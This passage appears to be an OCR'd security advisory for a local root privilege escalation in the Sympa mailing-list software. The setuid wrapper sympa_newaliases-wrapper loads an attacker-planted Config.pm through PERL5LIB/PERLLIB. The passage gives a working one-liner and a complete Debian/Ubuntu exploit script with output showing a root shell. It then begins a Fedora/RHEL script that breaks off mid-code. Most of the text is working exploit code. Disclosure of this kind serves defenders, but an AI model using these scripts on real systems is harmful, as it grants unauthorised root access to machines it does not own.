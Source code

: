 On Debian/Ubuntu systems, `/usr/lib/sympa/bin/sympa_newaliases-wrapper` is already *suid root* and world-executable, which means that we don't have to escalate to sympa in order to gain root privileges:

```
user@debian:~$ ls -lah /usr/lib/sympa/bin/sympa_newaliases-wrapper
-rwsr-xr-x 1 root root 14K janv. 20  2019 /usr/lib/sympa/bin/sympa_newaliases-wrapper
user@debian:~$ mkdir /tmp/poc && echo 'exec("/bin/sh")' >> /tmp/poc/Config.pm
user@debian:~$ PERL5LIB=/tmp/poc PERLLIB=/tmp/poc /usr/lib/sympa/bin/sympa_newaliases-wrapper 
# whoami
root
# 
```

## Proof of Concept : Root privilege escalation - Debian / Ubuntu

Standard user to root privileges:

```
#!/bin/sh
echo "[+] SYMPA on Debian/Ubuntu root privilege escalation exploit - n.chatelain -at- xyz.com"
echo "[~] Exploit setup."
EXPLOITDIR=$(mktemp -d)
EXPLOITFILE="$EXPLOITDIR/Config.pm"
chmod 777 $EXPLOITDIR
echo 'exec("/bin/sh");' > $EXPLOITFILE
export PERLLIB=$EXPLOITDIR
export PERL5LIB=$EXPLOITDIR
echo "[+] Triggering exploit."
/usr/lib/sympa/bin/sympa_newaliases-wrapper
```

Output:

```
user@debian:~$ bash poc.sh 
[+] SYMPA on Debian/Ubuntu root privilege escalation exploit - n.chatelain -at- xyz.com
[~] Exploit setup.
[+] Triggering exploit.
# whoami
root
```

## Proof of Concept : Root privilege escalation - Fedora / CentOS / RedHat

Standard user, to sympa, to root privilege escalation:

```
#!/bin/sh
echo "[+] SYMPA on Fedora/CentOS/RHEL root privilege escalation exploit - n.chatelain -at- xyz.com"
echo "[~] Exploit setup."
EXPLOITDIR=$(mktemp -d)
EXPLOITFILE="$EXPLOITDIR/Config.pm"
chmod 777 $EXPLOITDIR
cat > $EXPLOITFILE <<"EOL"
my $sympauser = "sympa";
my $pwuid = getpwuid( $< );
$elevate = $pwuid eq $sympauser;
$root = $pwuid eq "root";
if ($elevate == 1)
{
    print "[+] Running as service user, elevating privileges as root...\n";
    exec("/usr/libexec/sympa/sympa_newaliases-wrapper");
}
else {
```